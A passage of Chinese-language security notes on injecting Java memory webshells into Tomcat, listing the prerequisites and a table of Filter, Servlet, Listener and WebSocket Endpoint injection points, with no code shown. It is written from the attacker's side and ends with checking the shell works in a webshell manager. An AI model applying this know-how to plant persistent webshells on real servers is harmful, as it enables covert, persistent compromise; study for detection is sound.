还有一个版本相关的点，`WsServerContainer#addEndpoint` 开头会检查 `enforceNoAddAfterHandshake` 和 `addAllowed`。当前容器如果禁止握手后继续添加 Endpoint，会直接抛 `DeploymentException`。所以 `ServerContainer` 能拿到，不等于当前版本和配置一定允许运行期注册，还是得以真实请求握手成功为准。

## 打进去到底需要什么

由于是本地的笔记，整合成了一篇文章，所以本文肯定不会很细致。
总结一下，挂马我们需要拿什么东西，拿的思路是什么

第一，需要一个能在目标 JVM 里执行代码的入口。至少得让我们定义或加载类、实例化对象，再调用容器注册方法。只有文件写入、只能算布尔表达式、拿不到类加载能力的入口，都不能自动等价成内存马。

第二，需要当前 Web 应用的锚点。最舒服的是现成的 `ServletRequest`、`ServletContext` 或 Spring Bean；没有的话，就得从当前线程、线程上下文类加载器、容器线程或全局对象里继续找。锚点的作用不是执行命令，而是确定“到底往哪个 Web 应用里挂”。同一个 JVM 里可能同时跑着多个 Context，拿错了对象，注册成功也不会命中当前站点。

第三，需要对应的容器对象和可执行载体：

| 类型 | 载体 | 要拿到的对象 | 要写入的结构 | 后续触发方式 |
|---|---|---|---|---|
| Filter | `Filter` | `StandardContext` | `FilterDef`、`FilterMap`、`filterConfigs` | 匹配 URL 的普通 HTTP 请求 |
| Servlet | `HttpServlet` | `StandardContext` | `Wrapper`、`children`、servlet mapping | 命中新 URL 的普通 HTTP 请求 |
| Listener | `ServletRequestListener` | `StandardContext` | `applicationEventListeners` | 任意请求事件，再由 Listener 自己判断条件 |
| WebSocket Endpoint | `Endpoint` | `ServerContainer` | exact/template Endpoint mapping | HTTP Upgrade 后的 WebSocket 消息 |

第四，需要一条能命中的触发条件和一条能拿到结果的通信通道。Filter/Servlet 可以直接用参数、Header、Cookie 和 response；Listener 得自己从 request 关联到 response，而且不能自然截断后续链；WebSocket 则要完成 Upgrade，再用消息帧收发。如果只把对象塞进内存，没有 URL mapping、事件类型或 Endpoint path，后续请求照样找不到它。

第五，版本、包名和类加载器对得上。Tomcat 9 的 `javax.*` 到 Tomcat 10 的 `jakarta.*` 是最明显的一个实例，除此之外还有内部字段名、构造方法、模块反射限制、应用类加载器边界。静态看着能注册，真实环境里可能死在 `ClassCastException`、`NoSuchFieldException`、`InaccessibleObjectException` 或容器自己的运行期注册开关上。

最后就是真实的验证了🙋‍♂️，能像原本的载体一样工作、不影响真实业务、可用 shell 管理工具链接。

本质上，入口只负责让代码在 JVM 里执行一次，内存马负责把这一次执行挂到容器后续会反复经过的链路上。找挂载点、塞可执行对象、补触发关系，三样少一个都不行。同时🐎也只活在当前进程里，应用重载或 JVM 重启以后就没了，但是站点没关的话，重打一次即可☝️
